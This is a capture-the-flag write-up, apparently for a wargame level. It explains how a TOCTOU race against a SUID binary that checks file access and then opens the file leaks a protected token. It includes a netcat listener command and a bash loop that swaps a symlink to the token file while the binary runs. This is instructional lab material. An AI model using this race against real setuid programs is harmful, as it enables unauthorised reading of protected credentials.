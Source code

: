 There are a binary file `level10` and `token` in the home directory. We can execute ./level10, however we have no access to `token` file.
`level10` has the SUID bit and is owned by flag10. The program needs a file path and a host as arguments. It's obvious that we have to pass token as parameter. But how ? 

- We disassemble the executable with Ghidra. The program checks if we have the read permission on the file given as parameter. Then if we do, it tries to connect to the host on the port `6969` and sends the contents of the file.
- We see a lot of things in the main function, but especially the function `access` which checks if we have the read permission (so even if we create a symbolic file, we won't able to give it token).
- We notice that there are a lot of instructions/operations between the access call and open.
- So, first we create a simple server with netcat : `nc -lk 6969 | grep -v [contentfile2] | grep -v '.*( )*.' `
  - flag k allows to keep running after EOF
  - first grep -v to exclude content of `filename2`
  - second grep -v to exclude the banner (`'.*( )*.'`)
- In a second shell we give to the program a symbolic link pointing to a file we have the read access on, and we change the file pointed during the program flow to token. In order to do that, we use that bash script :
 ```bash
while true; do
  ln -sf /tmp/[filename1] /tmp/[filename2]
  ./level10 /tmp/[filename2] 127.0.0.1 &
  ln -sf ~/token /tmp/[filename2]
done
```

Tada! We get the password of flag10 with the TOCTOU method! 
